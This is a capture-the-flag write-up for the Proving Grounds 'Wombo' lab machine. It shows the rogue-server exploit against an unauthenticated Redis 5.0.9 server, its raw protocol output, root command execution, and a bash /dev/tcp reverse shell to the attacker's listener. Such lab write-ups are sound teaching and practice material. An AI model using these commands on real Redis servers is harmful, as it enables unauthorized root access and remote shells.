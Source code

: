 ```yaml
---
title: "Proving grounds Practice: Wombo"
layout: post
date: 2023-10-21 02:00
categories: writeup
---
```


Proving grounds Practice - Wombo CTF writeup.

## Nmap

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp    open  http       nginx 1.10.3
6379/tcp  open  redis      Redis key-value store 5.0.9
8080/tcp  open  http-proxy
27017/tcp open  mongod?
```

## 6379/tcp - open - redis - Redis key-value store 5.0.9

The redis server is vulnerable to [Remote code Execution](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) vulnerability.

Connect to redis server to check if it is password protected or not.

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Wombo$ redis-cli -h 192.168.211.69
192.168.211.69:6379> module list
(empty array)
(0.53s)
192.168.211.69:6379> 
```

The server is not password protected, clone the [GitHub](https://github.com/n0b0dyCN/redis-rogue-server) exploit and follow below steps.

After cloning the repository direct to `/redis-rogue-server/RedisModulesSDK/exp` folder and run `sudo make`. The `exp.so` file will be created and copy the file to the folder where the python exploit code is exists.

## Exploitation

```sh
naveenj@hackerspace:[09:53]~/proving_grounds/Wombo/redis-rogue-server$ python redis-rogue-server.py --rhost 192.168.211.69 --rport 6379 --lhost 192.168.45.243 --lport 80 --exp=exp.so -v
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.211.69:6379
[info] SERVER 192.168.45.243:80
[info] Setting master...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\n192.168.45.243\r\n$2\r\n80\r\n'
[->] b'+OK\r\n'
[info] Setting dbfilename...
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n73a8ee0c379f25d3a0d876642411d68a61500ca3\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\xb3\x00\x00\x00\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[info] Loading module...
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[info] Temerory cleaning up...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$11\r\nrm ./exp.so\r\n'
[->] b'$1\r\ne\r\n'
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id;whoami;
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$10\r\nid;whoami;\r\n'
[->] b'$45\r\n\x08uid=0(root) gid=0(root) groups=0(root)\nroot\n\r\n'
[>>]uid=0(root) gid=0(root) groups=0(root)
[>>] root
```

**Foothold Obtained**

## Reverse Shell

Bash reverse shell.

```sh
bash -c 'sh -i >& /dev/tcp/192.168.45.243/8080 0>&1';
```

Make sure the netcat listener is running.

```sh
veenj@hackerspace:[09:51]~/proving_grounds/Wombo/redis-rogue-server$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.211.69] 54064
sh: 0: can't access tty; job control turned off
# which python
/usr/bin/python
# python -c 'import pty; pty.spawn("/bin/bash")'
root@wombo:/# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).